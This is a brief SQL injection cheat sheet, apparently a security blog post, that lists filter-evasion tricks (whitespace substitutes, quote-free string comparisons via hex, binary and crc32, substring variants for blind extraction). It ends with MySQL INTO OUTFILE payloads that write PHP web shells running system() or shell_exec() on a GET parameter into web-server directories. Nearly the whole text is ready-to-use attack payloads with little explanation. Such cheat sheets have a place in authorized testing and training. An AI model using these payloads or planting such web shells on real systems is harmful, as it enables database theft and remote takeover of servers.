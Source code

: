 ```yaml
---
title: ["SQL Injection Cheat Sheet"]
date: 2024-12-27 09:00:00 +0900
categories: [cheatsheet, sqli]
tags: [web, sqli, cheatsheet]
---
```


### White Space
```
%20  // SPACE
%09  // HORIZONTAL TAB
%0a  // LINE FEED
%0b  // VERTICAL TAB
%0c  // FORM FEED
%0d  // CARRIAGE RETURN
%a0  // NBSP
/**/
select(id)from(table)where(id=1)
```

### Substring
```
substr(id,1,1)
substr(id from 1 for 1)
mid(id,1,1)
right(left(id,1),1)
lpad(id,1,space(1))
reverse(right(reverse(id),1))
convert(id,char(1))
```

### String Compare without Single Quotation
```
admin=0x61646d696e                                 // using Hex
admin=0b0110000101100100011011010110100101101110   // using Binary
substr(monthname(from_unixtime(1)),2,1)='a'        // using Gadget
crc32(id)=2282622326                               // using crc32 (md, sha, base also work)
```

### Number Expression
```
True = 1
False = 0
True+True = 2
True-True = 0
```


### MYSQL Command Execution
#### WEBSHELL - OUTFILE Method
```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Make sure to check `secure-file-priv` path.  
When `mysql/config/my.cnf` has `secure-file-priv=/tmp/` set, it means:  
  MYSQL's `INTO OUTFILE` command can only write files to the `/tmp/` directory

### SQL Injection Bypass
[https://www.exploit-db.com/papers/17934](https://www.exploit-db.com/papers/17934)
